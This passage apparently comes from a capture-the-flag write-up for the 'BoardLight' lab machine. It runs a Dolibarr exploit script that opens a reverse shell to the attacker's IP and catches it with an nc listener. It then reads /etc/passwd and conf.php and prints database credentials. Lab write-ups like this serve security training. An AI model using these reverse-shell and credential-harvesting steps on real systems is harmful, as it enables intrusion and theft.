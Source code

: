 Then, run the exploit in a separate window:

```
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.23 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
```

```
$ nc -lnvp 4444                                                  
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.11] 33634
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```

Now that we have a foothold on the machine (as `www-data`), we can try to move laterally to grab the user flag.

If we run `ls -la /home/`, we see a home directory for a `larissa` user.

To confirm, we can run `cat /etc/passwd | grep bash` to ensure that `larissa` is the user we are looking for.

```
www-data@boardlight:~$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

Hence, we know that `larissa` is the user of interest here.

As `www-data`, we have access to the configuration files for the `Dolibarr` instance. If we run a quick Google search, we find that default credentials can be found in the `conf.php` file at `~/html/crm.board.htb/htdocs/conf`.

If we look into `conf.php`, we find some `MySQL` DB credentials.

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<SNIP>
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
<SNIP>
```
